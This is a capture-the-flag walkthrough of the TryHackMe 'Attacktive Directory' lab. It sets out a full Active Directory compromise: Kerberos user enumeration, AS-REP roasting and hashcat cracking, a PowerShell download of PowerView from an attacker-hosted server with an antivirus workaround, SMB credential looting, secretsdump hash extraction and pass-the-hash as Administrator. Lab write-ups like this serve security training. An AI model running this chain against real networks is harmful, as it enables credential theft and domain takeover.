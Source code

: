 ```yaml
---
date: 2025-03-05
categories: [CTF, THM]
title: "THM - Attacktive Directory"
tags: ['hashcat', 'impacket', 'ldap', 'linux', 'nmap', 'privilege escalation', 'rce', 'secretsdump', 'smb', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Attacktive Directory - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Attacktive Directory

- NMAP

![image1](../resources/406f6695291c4749b73606d43103c777.png)

```bash
nmap -n -sV --script="ldap\* and not brute" 10.10.123.209

```

![image2](../resources/21a0bb4a8c6f4a85aae827c8b08b2bc6.png)


![image3](../resources/9492bebb8acc4b4ba0a00b63e7eb4863.png)

- Enumerate users with Kerbrute:

```bash
./kerbrute userenum --dc 10.10.123.209 -d spookysec.local userlist.txt -o validusers.txt

```
(Using the provided userlist to cut down on enumeration time)


![image4](../resources/6359efe477b946ac8545e0890e13b941.png)

- Cut fields:

```bash
cat validusers.txt | cut -d " " -f 8 > validusers_edited.txt

```

![image5](../resources/f5253e54d5314db4b0bfe97dda247c0b.png)

- ASRepRoasting:

```bash
impacket-GetNPUsers spookysec.local/ -users validusers_edited.txt -no-pass -dc-ip 10.10.123.209

```

![image6](../resources/d3be60a69983476c9760e5c8d889d8ec.png)

- Copy hash to file (hash)

- Crack with hashcat:

```bash
hashcat -m 18200 --force -a 0 hash /usr/share/wordlists/rockyou.txt

```

![image7](../resources/1ae9a47ff79b4940b6d6c3ca4499140a.png)

Got credentials: **svc-admin : management2005**

- RDP:

```bash
xfreerdp /v:10.10.123.209 /u:svc-admin /p:management2005 /dynamic-resolution /cert:ignore

```

![image8](../resources/5dc5c24db85646779d67504c1dcee02b.png)

- Enumeration:

```bash
query user

```

![image9](../resources/31fd3fe9bc5a4b87918a76b586d7c82e.png)

Only us logged in

- Upload PowerView.ps1:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/PowerView.ps1', 'C:\Users\svc-admin\PowerView.ps1')

```

![image10](../resources/7e283975acf14b2baa546b84c5a43bb1.png)

**<u>AV Workaround for PowerView:</u>**

```bash
  sed '/<#/,/#>/d' PowerView.ps1 > new_powerview.ps1
```

![image11](../resources/8f4a6f3f7f224933b636c0945ab94248.png)

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.8.24.66:8080/new_powerview.ps1 ', 'C:\Users\svc-admin\new_powerview.ps1 ')

```

![image12](../resources/7c9c5805aca0431eaab9663b5f7a3834.png)

Loaded the updated script but still doesn't run

Moving on...

- With credentials - Run enum4linux again:

![image13](../resources/f0728b3d070c4777a2a719ecf0f26c13.png)

- We have a share /backup  
  Connect with:

```bash
smbclient //10.10.173.147/backup -U thm-ad/svc-admin%management2005

```

![image14](../resources/57ca31fa34ed4160afde9990a2c2f62f.png)


![image15](../resources/40e4302c66704969984b3bde4749c0e8.png)


![image16](../resources/6d7eb32d586949d0be9170b55476f895.png)

- Looks like base64:

```bash
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d

```

![image17](../resources/9bba6007407a44c092521ae3afe1d9c7.png)

- We can see that there is a domain user called backup - and we have the creds:
**backup@spookysec.local:backup2517860**

- There is a clue in the THM Task description:

![image18](../resources/46edce029af74d30b3d70291f8247b03.png)

- To dump hashes use:

```bash
impacket-secretsdump spookysec.local/backup:backup2517860@10.10.173.147 -dc-ip 10.10.173.147

```

![image19](../resources/701bb2f608b14e8da350129bb4ae6a0f.png)

- You can use the hash with evil-winrm to connect:

```bash
evil-winrm -u Administrator -H 0e0363213e37b94221497260b0bcb4fc -i 10.10.173.147

```

![image20](../resources/bdbf6af48f124efdb9fad24dc703c072.png)


![image21](../resources/d2c6ad9920324007a48601c706585728.png)


![image22](../resources/e12d14a8e612485ba9f6176eae0e75b5.png)